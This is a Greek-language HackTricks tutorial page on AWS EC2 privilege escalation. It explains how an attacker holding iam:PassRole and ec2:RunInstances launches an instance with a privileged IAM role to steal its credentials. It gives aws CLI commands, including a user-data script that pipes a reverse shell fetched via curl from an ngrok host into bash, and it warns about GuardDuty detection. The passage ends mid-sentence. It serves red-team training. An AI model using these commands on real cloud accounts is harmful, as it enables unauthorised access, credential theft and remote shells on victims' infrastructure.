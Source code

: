 # AWS - EC2 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

## EC2

Για περισσότερες **πληροφορίες σχετικά με το EC2** ελέγξτε:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

Ένας επιτιθέμενος θα μπορούσε **να δημιουργήσει μια παρουσία συνδέοντας έναν ρόλο IAM και στη συνέχεια να αποκτήσει πρόσβαση στην παρουσία** για να κλέψει τα διαπιστευτήρια του ρόλου IAM από το σημείο μεταδεδομένων.

* **Πρόσβαση μέσω SSH**

Εκτελέστε μια νέα παρουσία χρησιμοποιώντας ένα **δημιουργημένο** **κλειδί ssh** (`--key-name`) και στη συνέχεια συνδεθείτε σε αυτήν μέσω ssh (αν θέλετε να δημιουργήσετε ένα νέο, μπορεί να χρειαστεί να έχετε την άδεια `ec2:CreateKeyPair`).
```bash
aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=<instance-profile-name> --key-name <ssh-key> \
--security-group-ids <sg-id>
```
* **Πρόσβαση μέσω rev shell στα δεδομένα χρήστη**

Μπορείτε να εκτελέσετε μια νέα παρουσία χρησιμοποιώντας **δεδομένα χρήστη** (`--user-data`) που θα σας στείλει ένα **rev shell**. Δεν χρειάζεται να καθορίσετε ομάδα ασφαλείας με αυτόν τον τρόπο.
```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=E<instance-profile-name> \
--count 1 \
--user-data "file:///tmp/rev.sh"
```
Προσοχή με το GuradDuty αν χρησιμοποιείτε τα διαπιστευτήρια του IAM ρόλου εκτός της παρουσίας:
